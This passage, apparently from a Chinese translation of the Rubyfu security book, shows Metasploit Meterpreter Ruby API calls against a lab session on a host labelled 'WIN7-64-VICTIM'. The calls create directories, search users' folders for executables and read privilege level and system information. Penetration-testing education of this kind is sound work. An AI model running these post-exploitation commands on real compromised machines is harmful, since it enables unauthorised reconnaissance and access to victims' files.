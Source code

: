 +   创建一个新目录：`mkdir`

    ```
    >> client.fs.dir.mkdir("Rubyfu")
    => 0
    >> client.fs.dir.chdir("Rubyfu")
    => 0
    >> client.fs.dir.pwd
    => "c:\\Rubyfu" 
    ```

### 文件类：`file.rb`

发现**File**类，让我们从一个简单的搜索开始。尝试下载和下载文件。

+   搜索

    ```
    client.fs.file.search("C:\\Users", "*.exe") 
    ```

## 扩展Stdapi::Fs：`sys`

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/stdapi.rb`

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys`

```
>> client.sys
=> #<Rex::Post::Meterpreter::ObjectAliases:0x00000001dcd600 @aliases={"config"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Sys::Config:0x00000001db69c8 @client=#<Session:meterpreter 192.168.0.18:57016 (192.168.242.128) "win7-64-victim\Workshop @ WIN7-64-VICTIM">>, "process"=>#<Class:0x00000001db69a0>, "registry"=>#<Class:0x00000001db8ed0>, "eventlog"=>#<Class:0x00000001dc0e28>, "power"=>#<Class:0x00000001dc4398>}> 
```

### 配置类：`config.rb`

+   获取用户ID：`getuid`

    ```
    >> client.sys.config.getuid
    => "NT AUTHORITY\\SYSTEM" 
    ```

+   获取系统信息

    ```
    >> client.sys.config.sysinfo
    => {"Computer"=>"WIN7-64-VICTIM", "OS"=>"Windows 7 (Build 7600).", "Architecture"=>"x64 (Current Process is WOW64)", "System Language"=>"en_US", "Domain"=>"WORKGROUP", "Logged On Users"=>2} 
    ```

+   检查当前进程是否以SYSTEM用户身份运行
